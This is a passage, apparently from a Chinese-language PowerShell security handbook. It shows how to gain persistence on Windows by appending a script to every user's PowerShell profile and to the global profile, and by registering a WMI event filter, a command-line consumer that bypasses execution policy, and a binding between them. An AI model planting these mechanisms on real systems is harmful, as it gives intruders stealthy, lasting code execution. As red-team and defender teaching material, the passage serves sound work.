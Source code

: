     ```
    Add-Content -Path $Profile -Value "Invoke-Command ..."
    ```

要将你的有效负载添加到当前主机的每个用户配置文件中，你还可以遍历所有用户配置文件并添加你的脚本或命令：

```
$profiles = Get-ChildItem -Path "C:\Users" -Filter "Profile.ps1" -Recurse
foreach ($profile in $profiles) {
    Add-Content -Path $profile.FullName -Value "C:\windows\system32\HelloWorld.ps1"
}
```

在这个例子中，首先，我们会在 `C:\User` 文件夹中查找所有 PowerShell 用户配置文件，遍历它们并添加 `HelloWorld.ps1` 脚本，该脚本位于 `C:\windows\system32\` 下。

此外，还有一个适用于系统上所有用户的全局配置文件，位于 `$PSHOME\Profile.ps1` 下。`$PSHOME` 是一个自动变量，包含 PowerShell 安装目录的路径：

```
> Add-Content -Path "$PSHOME\Profile.ps1" -Value "C:\path\to\script.ps1"
```

这个命令将编辑全局配置文件，并将你的脚本添加进去，以便每次在此主机上启动 PowerShell 会话时执行。

根据系统或场景的不同，还有其他几种配置文件。你可以在官方文档中找到有关配置文件的更多信息：https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles。

### 使用 WMI 建立持久性

你希望通过 WMI 建立持久性。这是最隐蔽的方法之一，也作为 PowerSploit 中的一项功能提供。

#### 解决方案

要通过 WMI 建立持久性，可以注册一个永久的事件过滤器和消费者，它们将在系统上定期运行，除非被注销。此部分将展示如何实现这一点。

首先，创建一个 WMI 事件过滤器，指定需要发生的事件以触发脚本运行：

```
$filter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{name='WMIPersistenceFilter';EventNameSpace='root\CimV2';QueryLanguage="WQL";Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LocalTime' AND TargetInstance.Hour = 07 AND TargetInstance.Minute = 00 GROUP WITHIN 60"};
```

在这个示例中，已经创建了`WMIPersistenceFilter`事件过滤器。为了建立持久性，使用一个定期触发的事件是非常有用的。因此，在此示例中，事件将在系统时间为*07:00*时触发。

接下来，创建一个 WMI 命令行事件消费者。此命令旨在每当事件过滤器返回数据时执行：

```
$consumer = Set-WmiInstance -Namespace "root\subscription" -Class 'CommandLineEventConsumer' -Arguments @{ name='WMIPersistenceConsumer';CommandLineTemplate="$($Env:SystemRoot)\System32\WindowsPowerShell\v1.0\powershell.exe -ExecutionPolicy Bypass -File C:\windows\system32\HelloWorld.ps1";RunInteractively='false'};
```

在我们的示例中，消费者被称为`WMIPersistenceConsumer`，它的配置是绕过执行策略并运行`C:\windows\system32\HelloWorld.ps1`脚本。

最后但同样重要的是，我们需要将它们*绑定*在一起——即，过滤器和消费者：

```
Set-WmiInstance -Namespace "root\subscription" -Class __FilterToConsumerBinding -Arguments @{Filter=$filter;Consumer=$consumer}
```
